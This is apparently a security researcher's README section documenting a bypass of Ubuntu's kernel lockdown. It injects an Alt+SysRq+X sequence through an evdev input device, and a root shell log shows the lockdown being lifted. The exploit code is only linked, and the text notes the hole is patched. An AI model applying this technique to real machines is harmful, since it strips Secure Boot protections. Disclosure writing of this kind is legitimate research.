 ### Method 2: evdev

(Added 21.03.2020.)

While Ubuntu's backport of the lockdown patchset [disallows](https://git.launchpad.net/~ubuntu-kernel/ubuntu/+source/linux/+git/bionic/commit/?id=531c25a35b2a93e025e72e04f16b0f3620ace581) injecting input events through `uinput`, it does nothing about `evdev`, that can also be used for input injection as long as you have a connected device that supports the required keys (e.g. a built-in laptop keyboard).

[Here](/02-evdev/evdev-sysrq.c) is the code that finds an appropriate `/dev/input/` device and injects Alt+SysRq+X sequence through it. [Here](/02-evdev/evdev-sysrq.py) is a Python program that does the same.

This method doesn't really give anything on top of the previous one from a practical standpoint, and it's actually fixed by the same patch that drops support for lifting lockdown via SysRq.

```
# uname -a
Linux x1 4.15.0-74-generic #84-Ubuntu SMP Thu Dec 19 08:06:28 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux

# cd 02-evdev
# ./run.sh
+ echo 1
+ gcc ./evdev-sysrq.c -o evdev-sysrq
+ ./evdev-sysrq
checking /dev/input/event0
EV_KEY supported
checking /dev/input/event1
checking /dev/input/event10
checking /dev/input/event11
checking /dev/input/event12
checking /dev/input/event13
checking /dev/input/event14
checking /dev/input/event15
checking /dev/input/event16
EV_KEY supported
checking /dev/input/event2
EV_KEY supported
checking /dev/input/event3
EV_KEY supported
KEY_SYSRQ supported
EV_SYN supported
found device /dev/input/event3
sending Alt+SysRq+X sequence
done

# dmesg
...
[  192.723788] sysrq: SysRq : Disabling Secure Boot restrictions
[  192.723791] Lifting lockdown
```
